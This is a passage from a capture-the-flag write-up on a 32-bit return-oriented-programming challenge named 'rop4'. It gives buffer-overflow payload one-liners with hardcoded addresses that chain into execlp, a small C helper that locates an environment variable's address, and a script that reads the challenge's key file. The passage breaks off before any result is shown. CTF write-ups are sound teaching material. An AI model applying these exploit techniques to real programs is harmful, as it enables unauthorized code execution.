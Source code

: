 Alright, lets try it:  

`(overflow)`    `(execlp)`     `(fake return)` `("/bin/sh")(three times)`    `(null)`  

```
cat <(python -c 'print "A"*140+"\xb0\x3a\x05\x08"+   "A"*4+   "\x4f\xbf\x0c\x08"*3+   "\xa1\x97\x0c\x08"') - | ./rop4
```
*note, I don't know why I needed /bin/sh 3 times, but it works so just roll with it.

However, when we do that, we get: `/bin/sh: /bin/sh: cannot execute binary file`

Now, here is where I will admit that I don't actually know C (ie. how your suppose to call execlp). What I do know is that it's calling sh, with the parameter sh, which you can't do (sh sh: error). So instead of trying to fix that, I decided to change the argument passed to sh to be my own program (in my home directory). It looks like this:

```
# rop4s.sh
cat /problems/ROP_4_887f7f28b1f64d7e/key
```
Now, we need to be able to pass in the location of that file ("/home2/user1792/rop4s.sh") to our execlp function. Here is where we need to use an environment variable. Lets assign our string to EXPLOIT and then use our program from buffer overflows to find its address (compile with '-m32' to get a shoter memory address - gcc -m32 -o printer printer.c):

```bash
export EXPLOIT="/home2/user1792/rop4s.sh"
```

```c
/* printer.c */
     #include <stdio.h>
     #include <stdlib.h>
     int main(int argc, char **argv) {
      printf("\n%p\n\n", getenv("EXPLOIT"));
      return(0);
     }
```

Running that we get:&nbsp;0xffffd830 as our address. Alright, lets use that instead of our 3rd "/bin/sh":  
`(overflow)`    `(execlp)`      `(fake return)` `("/bin/sh")(two times)` `(EXPLOIT address)`     `(null)`

```
     cat <(python -c 'print "A"*140+"\xb0\x3a\x05\x08"+    "A"*4+   "\x4f\xbf\x0c\x08"*2+  "\x30\xd8\xff\xff"+"\xa1\x97\x0c\x08"') - | ./rop4
     /bin/sh: �z X�K ����i686: No such file or directory
```
Well that didn't work. Lets increase the address of our environment variable by an arbitrary 32 (0x20).  
`(overflow)` `(<execlp>)`     `(fake return)` `("/bin/sh")(twice)` `($EXPLOIT env variable)`    `(null)`

```
     cat <(python -c 'print "A"*140+"\xb0\x3a\x05\x08"+   "A"*4  +"\x4f\xbf\x0c\x08"*2+"\x50\xd8\xff\xff"+"\xa1\x97\x0c\x08"') - | ./rop4
```
